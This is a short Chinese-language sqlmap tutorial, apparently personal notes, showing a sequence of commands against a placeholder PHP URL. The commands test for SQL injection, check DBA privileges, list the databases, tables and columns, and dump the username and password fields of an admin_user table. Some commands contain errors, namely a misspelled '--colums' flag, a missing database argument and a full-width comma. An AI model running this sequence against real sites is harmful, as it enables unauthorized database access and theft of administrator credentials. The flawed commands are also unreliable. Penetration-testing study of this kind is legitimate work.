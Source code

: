 002.sqlmap注入php程序
---

目标网站：`http://www.example.com/news.php?id=110`

```bash
sqlmap -u "http://www.example.com/news.php?id=110" 
```

> 查询是否可获取管理员权限

```bash
sqlmap -u "http://www.example.com/news.php?id=110"  --is-dba
```

> 返回back-end DBMS: MySQL >= 5.0.0

<br> 

> 列出所有数据库 

```bash
 sqlmap -u "http://www.example.com/news.php?id=110"  --dbs
```

> 查找当前的数据库  

```bash
 sqlmap -u "http://www.example.com/news.php?id=110" --current-db
```

> 返回当前的数据库为db  

<br>
 
> 查询db数据库所有表名

```bash
 sqlmap -u "http://www.example.com/news.php?id=110" --tables -D "db"
```

> 查询admin_user表中所有的字段
  
```bash
 sqlmap -u "http://www.example.com/news.php?id=110" --colums -T "admin_user" -D 
```

> 查询db数据库admin_user表中username和password字段的所有记录并下载
  
```bash
 sqlmap -u "http://www.example.com/news.php?id=110" --dump -C "username，password" -T "admin_user" -D "db"
```





















